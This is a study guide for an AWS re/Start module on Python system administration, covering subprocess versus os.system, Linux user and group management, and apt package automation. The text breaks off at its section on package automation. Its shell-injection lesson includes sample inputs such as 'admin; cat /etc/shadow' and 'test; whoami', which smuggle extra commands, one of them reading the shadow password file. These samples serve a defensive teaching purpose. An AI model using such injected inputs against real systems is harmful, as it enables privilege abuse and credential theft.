







# 🐧 Module 05: Python for System Administration – Study Guide

> **Course**: AWS re/Start  
> **Module**: Python Programming (M05)  
> **Source Document**: `T09-0007-RSPP_EN-US_SG_M05_SYSADMINISTRATION.pdf`  
> **Target Audience**: AWS re/Start Learners / Cloud Practitioners / Junior Developers / DevOps & Systems Engineers  

---

## 🎯 Module Overview

Welcome to **Python for System Administration**. In traditional IT environments, system administration relied heavily on ad-hoc shell scripts, manual commands, and tribal knowledge. In modern cloud and DevOps environments—such as Amazon Web Services (AWS)—systems must scale dynamically, heal automatically, and be provisioned reproducibly. 

While Bash and shell scripts are convenient for simple one-line tasks, they become unwieldy, fragile, and difficult to test when implementing complex error handling, multi-step validations, data parsing, and cross-platform operations. **Python** provides systems administrators (SysAdmins), Site Reliability Engineers (SREs), and Cloud Support Engineers with a versatile, readable, and robust programming language. Python bridges the gap between raw operating system commands and high-level application logic.

This study guide explores the core concepts of system administration, the management of Linux users and groups, automated package operations, and the execution of external shell commands using Python's `os` and `subprocess` modules. Furthermore, it deconstructs classroom code samples, addresses security vulnerabilities such as shell injection, and provides production-ready automation scripts for disk monitoring, service recovery, and log rotation.

---

### 📌 Learning Objectives

- [ ] **Define System Administration (SysAdmin)**: Articulate the core responsibilities, operational goals, and business significance of managing hardware, operating systems, and software services.
- [ ] **Automate User and Group Management**: Inspect `/etc/passwd` and `/etc/group`, create user accounts, remove users safely with home directory cleanups, and manage supplementary group memberships using Python.
- [ ] **Handle Software Packages Programmatically**: Automate installation, upgrades, removal, and cleanup routines across Linux distributions (`apt` and `dnf`/`yum`) while managing non-interactive execution flags.
- [ ] **Compare `os.system()` and `subprocess.run()`**: Evaluate process execution mechanics, return codes, output streams (`stdout`/`stderr`), process waiting, and why the legacy `os.system()` function is deprecated for modern administrative workflows.
- [ ] **Mitigate Shell Injection Vulnerabilities**: Identify the security hazards of interpolating unsanitized user input into shell invocations (`shell=True`), and enforce safe execution patterns using `shell=False` with argument lists.
- [ ] **Develop Robust SysAdmin Automation Scripts**: Implement end-to-end Python tools for disk capacity auditing, systemd service health checking and auto-remediation, and automated log archival.

---

## 🖥️ 1. Foundations of System Administration (SysAdmin)

### 1.1 What is System Administration?

**System Administration** (commonly abbreviated as **SysAdmin**) is the branch of information technology responsible for the installation, configuration, maintenance, monitoring, security, and overall reliability of computer hardware, operating systems, networks, and software applications.

A System Administrator ensures that computer systems, servers, cloud infrastructure, and associated services operate reliably, securely, and without unexpected interruption.



### 1.2 Core Responsibilities and Tasks

| Administrative Domain | Core Responsibilities & Operations | Common Linux / AWS Tools |
| :--- | :--- | :--- |
| **User & Identity Management** | Creating, modifying, auditing, and deleting user accounts; managing group permissions; SSH key configuration; least-privilege enforcement. | `useradd`, `usermod`, `userdel`, `/etc/passwd`, AWS IAM |
| **Package & Software Maintenance** | Installing software dependencies, running operating system kernel patches, keeping package repositories synchronized, removing obsolete libraries. | `apt`, `apt-get`, `dnf`, `yum`, AWS Systems Manager Patch Manager |
| **System Health & Monitoring** | Tracking CPU load, RAM allocation, disk capacity, inode usage, and network throughput; alerting on threshold breaches. | `top`, `htop`, `df`, `free`, `systemctl`, Amazon CloudWatch |
| **Storage & Backup Operations** | Managing mount points, logical volumes (LVM), automated filesystem backups, snapshot schedules, and log rotation. | `mount`, `fdisk`, `logrotate`, `rsync`, Amazon EBS Snapshots, Amazon S3 |
| **Service & Daemon Management** | Starting, stopping, enabling, restarting, and troubleshooting system background services and network daemons. | `systemctl`, `journalctl`, `service` |
| **Incident Response & Outages** | Diagnosing service crashes, resolving network bottlenecks, analyzing log files, root-cause analysis (RCA). | `/var/log/*`, `journalctl`, `dmesg`, `netstat`/`ss` |

### 1.3 The Business Value of SysAdmin

1. **Minimizing Downtime & Revenue Loss**: Outages directly impact customer experience and business revenue. Proactive administration discovers and mitigates anomalies before they turn into full-scale system crashes.
2. **Security Compliance & Vulnerability Management**: Unpatched operating systems and improperly configured user privileges represent significant vectors for security breaches. Systematic administration maintains security postures.
3. **Operational Efficiency**: Eliminating manual, repetitive toil via automation frees engineering capacity for high-value development and infrastructure design.
4. **Predictable Scaling**: Capacity planning ensures systems dynamically accommodate business growth without degradation or cost overruns.

---

### 1.4 Why Python for System Administration?

While shell scripting (e.g., Bash) has historically been the standard for Linux administration, complex administration demands higher-level abstractions.



#### Comparison: Bash vs. Python for SysAdmin

| Evaluation Factor | Bash / Shell Scripts | Python 3 Automation |
| :--- | :--- | :--- |
| **Best Suited For** | Simple pipe-and-filter pipelines (`grep \| awk \| sort`), login profiles, container entrypoints. | Complex automation, multi-step validation, JSON/REST API interactions, cloud SDKs. |
| **Data Structures** | Strings, basic arrays, limited associative arrays. | Rich built-in types: dictionaries, lists, sets, tuples, objects. |
| **Error Handling** | Exit codes (`$?`), `set -e` (frequently brittle and prone to silent failures). | Full exception hierarchies (`try...except...finally`), explicit tracebacks. |
| **Code Readability & Scope** | Variables are global by default; whitespace and quoting rules are error-prone. | Strict scoping, indentation rules, PEP 8 standards, static type hinting. |
| **Cloud Ecosystem** | Relies on external CLI utilities (`aws cli`) parsed via `jq` or string slicing. | Native AWS SDK ([`boto3`](https://boto3.amazonaws.com/)) with rich object models and typed responses. |

---

## ⚡ 2. Executing Shell Commands in Python: `os.system` vs `subprocess`

A fundamental task in Python-based system administration is executing underlying operating system utilities. Python provides two primary interfaces: the legacy `os.system()` function and the modern, versatile `subprocess` module.



---

### 2.1 The Legacy Approach: `os.system()`

The `os` module includes the `os.system(command)` function, which executes the string `command` by passing it to the underlying system shell (typically `/bin/sh` or `/bin/bash` on Linux).

```python
import os

# Executing a simple command
exit_code = os.system("ls -la /var/log")
print(f"Command exited with code: {exit_code}")
```

#### Critical Limitations of `os.system()`:
1. **No Output Capture**: The command outputs directly to standard output (the terminal screen). Python cannot capture or store the command's text output into a variable for parsing or manipulation.
2. **Opaque Return Codes**: `os.system()` does not return the command output; it returns the system wait status (an encoded 16-bit value). On POSIX systems, the actual exit code is stored in the high byte, requiring bit-shifting (`exit_code >> 8`) or helper functions (`os.waitstatus_to_exitcode()`).
3. **Implicit Subshell Execution**: `os.system()` always spawns a full subshell (`/bin/sh -c`). The shell interprets metacharacters, wildcards, and variable expansions, opening massive security risks.
4. **No Timeout Controls**: If the invoked command hangs or prompts for interactive input indefinitely, the Python script freezes without a native timeout mechanism.

> [!WARNING]
> In modern Python development, `os.system()` is considered legacy and is functionally superseded by the `subprocess` module. Do not use `os.system()` in production scripts or security-sensitive automation.

---

### 2.2 The Modern Standard: The `subprocess` Module

Introduced to unify and replace various legacy process-spawning functions (`os.system`, `os.spawn*`, `os.popen*`), the `subprocess` module allows Python to spawn new operating system processes, connect to their input/output/error pipes, and obtain their return codes.

#### Process Execution Engine: `subprocess.run()`
Added in Python 3.5, `subprocess.run()` is the recommended high-level entry point for executing external commands.

```python
import subprocess

# Standard modern execution pattern
result = subprocess.run(
    ["df", "-h", "/"],
    capture_output=True,  # Capture stdout and stderr
    text=True,            # Decode bytes into UTF-8 strings automatically
    check=True            # Raise CalledProcessError if returncode != 0
)

print(f"Exit Code: {result.returncode}")
print(f"Standard Output:\n{result.stdout}")
```

#### The `CompletedProcess` Object
`subprocess.run()` returns a `subprocess.CompletedProcess` instance with several essential attributes:
- `args`: The command and arguments that were executed (as a list or string).
- `returncode`: The exit code of the process (0 indicates success; non-zero indicates an error).
- `stdout`: The captured standard output stream (string if `text=True`, otherwise bytes).
- `stderr`: The captured standard error stream (string if `text=True`, otherwise bytes).
- `check_returncode()`: Raises `CalledProcessError` if `returncode` is non-zero.

---

### 2.3 Handling Exceptions and Timeouts

In production automation, external commands may fail, freeze, or exceed execution time budgets. The `subprocess` module provides robust exception handling:

```python
import subprocess

def run_safe_command(cmd_args: list[str], timeout_seconds: int = 10) -> str | None:
    """Execute a system command safely with timeout and error handling."""
    try:
        completed = subprocess.run(
            cmd_args,
            capture_output=True,
            text=True,
            timeout=timeout_seconds,
            check=True
        )
        return completed.stdout.strip()
    except subprocess.TimeoutExpired as err:
        print(f"[-] Command '{' '.join(cmd_args)}' timed out after {err.timeout} seconds.")
        return None
    except subprocess.CalledProcessError as err:
        print(f"[-] Command failed with exit code {err.returncode}.")
        print(f"[-] Error details: {err.stderr.strip()}")
        return None
    except FileNotFoundError:
        print(f"[-] Executable '{cmd_args[0]}' was not found on system PATH.")
        return None

# Example invocation
output = run_safe_command(["uptime"])
if output:
    print(f"[+] System Uptime: {output}")
```

---

### 2.4 Deep Dive: `subprocess.Popen` for Advanced Process Control

Under the hood, `subprocess.run()` is a synchronous wrapper around the underlying `subprocess.Popen` (Process Open) class. When you need asynchronous process execution, live streaming of standard output, or bidirectional pipeline plumbing, use `Popen` directly:



```python
import subprocess

# Streaming process output in real-time
process = subprocess.Popen(
    ["ping", "-c", "3", "8.8.8.8"],
    stdout=subprocess.PIPE,
    stderr=subprocess.PIPE,
    text=True
)

# Read stdout line-by-line as it is produced
for line in process.stdout:
    print(f"[LIVE PING] {line.strip()}")

# Wait for completion and collect return code
process.wait()
print(f"Process finished with code: {process.returncode}")
```

#### Comparison: `os.system()` vs. `subprocess.run()` vs. `subprocess.Popen()`

| Feature / Trait | `os.system()` | `subprocess.run()` | `subprocess.Popen()` |
| :--- | :--- | :--- | :--- |
| **Execution Mode** | Synchronous (blocking) | Synchronous (blocking) | Asynchronous (non-blocking) |
| **Output Capture** | ❌ None (writes to terminal) | ✅ Yes (`capture_output=True`) | ✅ Yes (Pipes / streaming) |
| **Input / Stderr Separation**| ❌ No | ✅ Distinct `stdout` and `stderr`| ✅ Distinct file descriptors |
| **Return Value** | 16-bit status integer | `CompletedProcess` instance | `Popen` process handle |
| **Timeout Support** | ❌ None | ✅ Built-in `timeout=...` | ✅ `wait(timeout=...)` |
| **Shell Security** | ❌ Spawns subshell by default | ✅ `shell=False` default | ✅ `shell=False` default |
| **Typical Use Case** | Legacy scripts | 95% of SysAdmin tasks | Background jobs & pipelines |

---

### 2.5 Security Analysis: Shell Injection Vulnerabilities

One of the most dangerous vulnerabilities in systems automation is **Shell Injection**. It occurs when untrusted or unvalidated user input is concatenated directly into a command string passed to an operating system shell.



#### Vulnerable Code Example (`os.system`):
```python
# DANGEROUS: Do NOT use in production!
import os

user_input = input("Enter username: ")
# If attacker inputs: admin; cat /etc/shadow
command = f"sudo useradd {user_input}"
os.system(command) 
# The shell executes: sudo useradd admin
# AND THEN executes: cat /etc/shadow
```

#### Secure Code Example (`subprocess.run` with list):
```python
import subprocess

user_input = input("Enter username: ")
# Safe: shell=False is the default
result = subprocess.run(
    ["sudo", "useradd", user_input],
    capture_output=True,
    text=True
)

if result.returncode != 0:
    print(f"Error creating user: {result.stderr.strip()}")
```

> [!CAUTION]
> When `shell=False` (default), the operating system directly invokes the binary (using the `execve` system call) and passes every element in the list as a literal argument string. Shell metacharacters like `;`, `&`, `|`, `>`, and backticks are **not** parsed or executed as commands.
>
> If you ever have a strict requirement to use a shell pipeline, you must sanitize inputs using Python's standard library `shlex` module:
> ```python
> import shlex
> safe_argument = shlex.quote(user_input)
> ```

---

## 👥 3. Managing Linux Users and Groups with Python

User and group administration is a core responsibility of system administrators. In multi-tenant environments, web servers, and cloud instances, managing user privileges adheres strictly to the principle of least privilege (PoLP).

### 3.1 Understanding Linux Identity Files

Linux represents users, groups, and passwords in standardized flat configuration files:



1. **`/etc/passwd` Structure**:
   `username:x:UID:GID:GECOS(Comment):home_directory:login_shell`
   - Example: `ubuntu:x:1000:1000:Ubuntu User,,,:/home/ubuntu:/bin/bash`
2. **`/etc/group` Structure**:
   `group_name:x:GID:member1,member2,...`
   - Example: `docker:x:999:ubuntu,deployer`
3. **`/etc/shadow` Structure**:
   Contains hashed passwords, salt, and password aging policies. Accessible only by root (`UID 0`).

---

### 3.2 Reading Identity Data via Built-in Modules: `pwd` and `grp`

Before running shell commands to modify users, Python provides read-only access to system account databases via the built-in POSIX modules `pwd` and `grp`:

```python
import pwd
import grp

def audit_local_users():
    """Audit all system users with interactive shells."""
    print(f"{'Username':<15} {'UID':<8} {'GID':<8} {'Home Dir':<20} {'Shell'}")
    print("-" * 70)
    
    for user in pwd.getpwall():
        # Filter for interactive human users (commonly UID >= 1000)
        if user.pw_uid >= 1000 and user.pw_shell not in ("/bin/false", "/usr/sbin/nologin"):
            print(f"{user.pw_name:<15} {user.pw_uid:<8} {user.pw_gid:<8} {user.pw_dir:<20} {user.pw_shell}")

def list_user_groups(username: str):
    """Retrieve all group names of which a user is a member."""
    user_info = pwd.getpwnam(username)
    user_gid = user_info.pw_gid
    primary_group = grp.getgrgid(user_gid).gr_name
    
    supplementary = [g.gr_name for g in grp.getgrall() if username in g.gr_mem]
    return [primary_group] + supplementary
```

> [!NOTE]
> The `pwd` and `grp` modules are read-only interfaces to the C runtime library (`getpwnam`, `getgrnam`). To create, modify, or delete user accounts, you must execute administrative binaries (such as `useradd`, `usermod`, `userdel`) with root/sudo privileges.

---

### 3.3 Curriculum Code Analysis & Deconstruction

The course slides introduce several interactive scripts for user administration. Let us examine the slide code snippets, understand how they work, and address their technical limitations.

#### Slide 7–8: Adding a User
```python
# Slide 7 snippet
def new_user():
    confirm = "N"
    while confirm != "Y":
        username = input("Enter the name of the user to add: ")
        print("Use the username '" + username + "'? (Y/N)")
        confirm = input().upper()
    os.system("sudo adduser " + username)
```
- **How it works**: Uses a `while` loop that continues prompting the operator until they enter `"Y"`. Once confirmed, it invokes `os.system()` with `sudo adduser <username>`.
- **Classroom Solution Note**: Note that `adduser` is an interactive Perl script on Debian/Ubuntu that prompts for passwords and full names, whereas `useradd` is the low-level, non-interactive POSIX binary standard.
- **Identified Flaws**:
  - Unsanitized string concatenation (`os.system("sudo adduser " + username)`) is vulnerable to shell injection if an attacker inputs `test; whoami`.
  - No check to see if the user already exists before running the command.
  - Return status of `os.system` is ignored; the caller cannot tell if the command succeeded or failed.

#### Slide 9–10: Removing a User
```python
# Slide 9 snippet
def remove_user():
    confirm = "N"
    while confirm != "Y":
        username = input("Enter the name of the user to remove: ")
        print("Remove the user : '" + username + "'? (Y/N)")
        confirm = input().upper()
    os.system("sudo userdel -r " + username)
```
- **How it works**: Prompts for confirmation. The `-r` flag on `userdel` ensures the user's home directory (`/home/<username>`) and mail spool are purged.
- **Identified Flaws**: Same shell injection vulnerability and missing error status check.

#### Slide 11–18: Adding a User to Supplementary Groups
The curriculum presents a multi-part script across slides 11 to 18:
```python
# Synthesized slides 11-18 snippet
import subprocess
import os

def add_user_to_group():
    username = input("Enter the name of the user that you want to add to a group: ")
    output = subprocess.Popen('groups', stdout=subprocess.PIPE).communicate()[0]
    # Slide 11: Prompt for groups
    print("Enter a list of groups to add the user to")
    print("The list should be separated by spaces, for example:\r\n group1 group2 group3")
    print("The available groups are:\r\n " + str(output))
    chosenGroups = input("Groups: ")

    # Slide 13-16: Parse groups and check existing
    output = output.decode().split(" ") if isinstance(output, bytes) else output.split(" ")
    chosenGroups = chosenGroups.split(" ")
    print("Add To:")
    groupString = ""
    for grp in chosenGroups:
        found = False
        for existingGrp in output:
            if grp.strip() == existingGrp.strip():
                found = True
                break
        if found:
            print("- Existing Group : " + grp)
        else:
            print("- New Group : " + grp)
        groupString = groupString + grp + ","

    # Slide 17-18: Execute usermod
    groupString = groupString[:-1] + " "
    confirm = ""
    while confirm != "Y" and confirm != "N":
        print("Add user '" + username + "' to these groups? (Y/N)")
        confirm = input().upper()
        if confirm == "N":
            print("User '" + username + "' not added")
        elif confirm == "Y":
            os.system("sudo usermod -aG " + groupString + username)
            print("User '" + username + "' added")
```

#### Critical Engineering Observations on Slides 11–18:
1. **Python 3 Bytes vs. String Issue**: In Python 3, `subprocess.Popen.communicate()[0]` returns a `bytes` object (e.g. `b'ubuntu adm dialout\n'`), not a `str`. Attempting to concatenate `+ output` without decoding raises a `TypeError: can only concatenate str (not "bytes") to str`.
2. **`groups` vs. System Groups**: The `groups` command without arguments only prints the groups of the *current process user*, not all groups on the operating system. To query all system groups, reading `/etc/group` or `getent group` is required.
3. **Uncreated New Groups**: The script prints `- New Group : <grp>`, but `usermod -aG` will **fail** if the group does not already exist! A production script must first run `groupadd` before adding the user.
4. **String Slicing**: `groupString[:-1]` strips the trailing comma, but modern argument lists handle comma-delimited lists natively without fragile string slicing.

---

### 3.4 Production-Grade User & Group Provisioning Script

Here is an end-to-end, enterprise-ready Python module for user and group administration that eliminates all vulnerabilities:

```python
#!/usr/bin/env python3
"""
Enterprise Linux User & Group Provisioning Manager
Demonstrates secure execution with subprocess.run, input validation, and idempotency.
"""

import os
import pwd
import grp
import re
import sys
import subprocess

def check_root_privileges() -> None:
    """Ensure the script is being executed with administrative privileges."""
    if os.geteuid() != 0:
        sys.exit("[!] Error: This script must be executed as root or with sudo.")

def is_valid_username(username: str) -> bool:
    """Validate username against standard Linux POSIX regex."""
    # Usernames must start with lowercase letter or underscore, 
    # followed by lowercase letters, numbers, hyphens, or underscores (max 32 chars).
    return bool(re.match(r"^[a-z_][a-z0-9_-]{1,31}$", username))

def user_exists(username: str) -> bool:
    """Check if a user account already exists in /etc/passwd."""
    try:
        pwd.getpwnam(username)
        return True
    except KeyError:
        return False

def group_exists(groupname: str) -> bool:
    """Check if a group already exists in /etc/group."""
    try:
        grp.getgrnam(groupname)
        return True
    except KeyError:
        return False

def ensure_group(groupname: str) -> bool:
    """Idempotently create group if it does not already exist."""
    if group_exists(groupname):
        return True
    
    print(f"[*] Group '{groupname}' does not exist. Creating...")
    cmd = ["groupadd", groupname]
    result = subprocess.run(cmd, capture_output=True, text=True)
    if result.returncode != 0:
        print(f"[-] Failed to create group '{groupname}': {result.stderr.strip()}")
        return False
    return True

def create_user(username: str, groups: list[str] | None = None, shell: str = "/bin/bash") -> bool:
    """
    Create a new user with home directory and assign supplementary groups.
    Securely uses subprocess.run with shell=False.
    """
    check_root_privileges()
    
    if not is_valid_username(username):
        print(f"[-] Invalid username '{username}'. Must match POSIX conventions.")
        return False

    if user_exists(username):
        print(f"[-] User '{username}' already exists. Aborting creation.")
        return False

    # Base useradd command: -m creates home directory, -s specifies shell
    cmd = ["useradd", "-m", "-s", shell]
    
    if groups:
        # Validate or create all requested groups
        valid_groups = []
        for g in groups:
            g_clean = g.strip()
            if g_clean and ensure_group(g_clean):
                valid_groups.append(g_clean)
        
        if valid_groups:
            cmd.extend(["-G", ",".join(valid_groups)])

    cmd.append(username)

    print(f"[*] Executing: {' '.join(cmd)}")
    result = subprocess.run(cmd, capture_output=True, text=True)
    
    if result.returncode == 0:
        print(f"[+] User '{username}' successfully created.")
        return True
    else:
        print(f"[-] Failed to create user '{username}': {result.stderr.strip()}")
        return False

def delete_user(username: str, purge_home: bool = True) -> bool:
    """Safely delete a user account and optionally wipe their home directory."""
    check_root_privileges()
    
    if not user_exists(username):
        print(f"[-] User '{username}' does not exist.")
        return False

    cmd = ["userdel"]
    if purge_home:
        cmd.append("-r")
    cmd.append(username)

    result = subprocess.run(cmd, capture_output=True, text=True)
    if result.returncode == 0:
        print(f"[+] User '{username}' successfully deleted.")
        return True
    else:
        print(f"[-] Failed to delete user '{username}': {result.stderr.strip()}")
        return False

if __name__ == "__main__":
    # Demonstration execution
    if os.geteuid() == 0:
        create_user("developer_dan", groups=["docker", "developers"])
    else:
        print("[!] Re-run with 'sudo' to test user creation functionality.")
```

---

## 📦 4. Package & Environment Management with Python

Package management automation allows administrators to build consistent server baselines, deploy dependencies, and keep systems patched against security CVEs.



---

### 4.1 Curriculum Code Analysis: Package Scripts

Slides 20 to 29 in the curriculum present a set of scripts for package management using the Debian/Ubuntu `apt` package manager.

#### Slides 20–23: Selecting and Installing Packages
```python
# Slide 20-23 synthesized snippet
def install_or_remove_packages():
    iOrR = ""
    while iOrR != "I" and iOrR != "R":
        print("Would you like to install or remove packages? (I/R)")
        iOrR = input().upper()
    
    if iOrR == "I":
        iOrR = "install"
    elif iOrR == "R":
        iOrR = "remove"

    print("Enter a list of packages to install")
    print("The list should be separated by spaces, for example:\n package1 package2 package3")
    print("Otherwise, input 'default' to " + iOrR + " the default packages listed in this program")
    packages = input().lower()
    
    if packages == "default":
        packages = "nginx git curl htop"  # defaultPackages placeholder
        
    if iOrR == "install":
        os.system("sudo apt-get install " + packages)
```
- **Classroom Concept**: Prompts user for intent (`Install` vs `Remove`), allows entering package names or a `default` list, and executes `apt-get install`.

#### Slides 24–25: Purging and Autoremoving
```python
# Slide 24 snippet
    elif iOrR == "remove":
        while True:
            print("Purge files after removing? (Y/N)")
            choice = input().upper()
            if choice == "Y":
                os.system("sudo apt-get --purge " + iOrR + " " + packages)
                break
            elif choice == "N":
                os.system("sudo apt-get " + iOrR + " " + packages)
                break
        os.system("sudo apt autoremove")
```
- **Difference between `remove` and `purge`**:
  - `apt-get remove`: Removes the package binaries and libraries, but **preserves** user configuration files (typically located in `/etc/`).
  - `apt-get --purge remove` (or `apt-get purge`): Removes binaries **and** deletes all associated configuration files and database definitions.
- **`apt autoremove`**: Removes automatically installed packages that were dependencies for other applications but are no longer needed because the parent applications were uninstalled.

#### Slides 26–27: Cleaning the Environment
```python
# Slide 26 snippet
def clean_environment():
    os.system("sudo apt-get autoremove")
    os.system("sudo apt-get autoclean")
```
- **`autoremove`**: Cleans orphaned runtime dependencies.
- **`autoclean`**: Clears the local repository cache (`/var/cache/apt/archives/`) of `.deb` package files that can no longer be downloaded (obsolete packages), freeing valuable disk space.

#### Slides 28–29: Updating and Upgrading the System
```python
# Slide 28 snippet
def update_environment():
    os.system("sudo apt-get update")
    os.system("sudo apt-get upgrade")
    os.system("sudo apt-get dist-upgrade")
```
- **`apt-get update`**: Resynchronizes package index files from their sources (`/etc/apt/sources.list`). It downloads updated package lists; it does **not** install or upgrade any software.
- **`apt-get upgrade`**: Installs newer versions of packages currently installed on the system from the sources retrieved by `update`. It will **never** remove existing packages or install new packages that require removing others.
- **`apt-get dist-upgrade`**: Intelligently handles changing dependencies with new versions of packages. It will install new dependencies and remove obsolete or conflicting packages as required.
- **Crucial Note from Slide 29**: `dist-upgrade` upgrades packages within the current distribution release. It does **not** upgrade the entire operating system to a higher major release (e.g., it will not upgrade Debian 8 to Debian 9 or Ubuntu 20.04 to 22.04).

---

### 4.2 Critical Production Requirements for Package Automation

When automating package managers in scripts, standard commands will hang or fail if you do not account for unattended operations:

